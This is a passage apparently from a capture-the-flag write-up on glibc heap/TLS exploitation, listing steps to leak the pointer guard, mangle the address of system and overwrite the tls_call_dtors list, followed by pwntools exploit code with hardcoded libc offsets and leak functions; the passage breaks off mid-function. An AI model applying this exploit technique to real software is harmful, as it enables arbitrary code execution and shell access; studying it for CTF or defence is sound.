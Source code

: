 so its goes like this:
1. leak pointer guard (relative to libc)
2. xor it with the target function we want to run (maybe the libc SYSTEM functin)
3. do ror encryption on the func value
4. write after the function the parameter we want to pass it (e.g. address of `/bin/sh`)
5. then overwrite the first object in the tls_call_dtors linked list
6. exit the program

Here is it in the pwntools code:
```py
    p_guard = arbitrary_read(p, libc - FS_BASE)
    print("p_guard: ", hex(p_guard))

    func = libc + SYSTEM
    func ^= p_guard
    func = rol(func, 0x11, word_size=64)

    arbitrary_write(p, bss + 0x20, func)
    arbitrary_write(p, bss + 0x28, libc + BINSH)
```

And here is the full exploit code of that challenge:
```py
from pwn import *

#offsets
__MALLOC_HOOK = 0x2214a0
ONE_GADGET =  0xebd43
__EXIT_FUNCS = 0x21a838
ENVIRON = 0x0000000000222200
MAIN_RET_ADDR = 0x20958
FS_BASE = 0x2890
__GI___call_tls_dtors = 0x2918
SYSTEM = 0x0000000000050d70
BINSH = 0x1d8678

def send_option(p: process, option: str):
    p.sendlineafter("==> ", option)

def change_byte(p: process, idx: int, offset: int, new_byte: int):
    p.sendline("3")
    p.sendline(str(idx))
    p.sendline(str(offset))
    p.sendline(str(new_byte))
    print("change_byte: ", idx, offset, hex(new_byte))

def leak_libc(p: process):
    send_option(p, "3")
    p.sendline("-80") #offset of _IO_2_1_stdout_
    p.sendline(str(0xffff_ffff_ffff_ffff))
    p.recvuntil(">= ")
    libc = int(p.recvline()[:-1]) - 0x21b780
    print("libc: ", hex(libc))
    return libc

def leak_bss(p: process):
    send_option(p, "3")
    p.sendline("-259") #offset of
    p.sendline(str(0xffff_ffff_ffff_ffff))
    p.recvuntil(">= ")
    bss = int(p.recvline()[:-1])
    print("bss: ", hex(bss))
    return bss

def arbitrary_write(p: process, addr: int, data: int):
```